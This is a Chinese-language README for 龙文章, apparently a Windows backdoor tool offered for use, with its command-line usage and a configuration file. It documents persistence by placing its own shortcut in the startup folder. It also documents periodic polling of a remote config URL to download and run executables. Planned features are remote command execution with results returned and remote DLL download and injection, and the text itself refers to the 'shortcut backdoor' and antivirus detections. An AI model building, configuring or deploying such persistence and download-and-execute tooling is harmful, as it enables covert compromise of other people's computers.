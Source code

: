# 龙文章

> 炮灰团团长 <我的团长我的团>

![](https://bkimg.cdn.bcebos.com/pic/0823dd54564e9258510b97fb9c82d158ccbf4ee3?x-bce-process=image/watermark,image_d2F0ZXIvYmFpa2UxMTY=,g_7,xp_5,yp_5/format,f_auto)

- 使用方式

```
LongWenzhang.exe 快捷方式名 配置文件地址
LongWenzhang.exe aaa http://127.0.0.1/1.txt
```
## 功能

### 权限维持 (已实现)

- 启动目录

    > 制作本身的快捷方式放入启动目录

### 信息收集 (未实现)

- 杀软检测

### 任务模块 (已实现)
- 文件下载
  
## 配置文件内容
- http://127.0.0.1/s.txt

```
//获取任务间隔时间(分钟) 默认:30
Sleep = 30
//是否退出程序
Exit = false || true
//毁灭,退出程序并删除快捷方式后门,杀软报毒,代码注释掉了
Destruction = false || true
//配置文件的网络路径
InfoUrl = 

# 文件下载模块
[DownLoad]
//下载文件的地址
url = http://127.0.0.1/s.exe
//下载的文件是否运行
execute = true || false
//执行文件是否需要参数,如果不需要参数,请设置为空
parameter = 
//文件下载保存路径,默认为`龙文章`所在路径
path = c:\users\public\1.exe



# 以下为计划实现的功能
//获取任务时候发送http请求的各种请求头
[http]

//执行的命令,并将命令结果返回,需要配置服务端接收消息/文件
[callback]
command = 
back = 

//下载远程dll文件并注入
[DLL]
//下载文件的地址
url = http://127.0.0.1/s.dll
//下载的文件是否注入
injection = true || false
//执行文件是否需要参数,如果不需要参数,请设置为空
parameter = 
//文件下载保存路径,默认为`龙文章`所在路径
path = c:\users\public\1.exe
```
